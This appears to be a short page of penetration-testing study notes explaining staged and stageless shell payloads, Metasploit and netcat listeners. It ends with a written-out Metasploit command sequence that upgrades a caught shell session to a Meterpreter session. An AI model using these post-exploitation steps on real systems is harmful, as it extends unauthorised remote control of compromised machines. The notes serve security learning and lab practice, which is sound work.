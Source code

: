# Shells

![](<../../../../.gitbook/assets/image (25) (1) (1) (1) (1).png>)

## Staged Payloads

A payload that is not enough to create a shell itself

It is a downloader part that needs to download and execute the rest of the payload

It is much smaller

![](<../../../../.gitbook/assets/image (29) (1) (1) (1) (1) (1).png>)

You're required to use a Metasploit listener in order to receive the shell connection

The listerner payload has to be exactly the same as the msfvenom payload

![](<../../../../.gitbook/assets/image (35) (1) (1) (1) (1).png>)

![](<../../../../.gitbook/assets/image (26) (1) (1) (1).png>)

## Stageless Payloads

A standalone program that doesn't need anything additional, just the netcat listener on your computer

Its size is much bigger

![](<../../../../.gitbook/assets/image (37) (1) (1) (1) (1).png>)

## Using Metasploit to Catch a Shell

![](<../../../../.gitbook/assets/image (34) (1) (1) (1) (1) (1).png>)

![](<../../../../.gitbook/assets/image (36) (1) (1) (1) (1) (1) (1).png>)

### Upgrading to Meterpreter Shell

```
Ctrl+Z or background
use post/multi/manage/shell_to_meterpreter
set lhost [HOST]
set lport [PORT]
set session [SESSION ID]
run
```
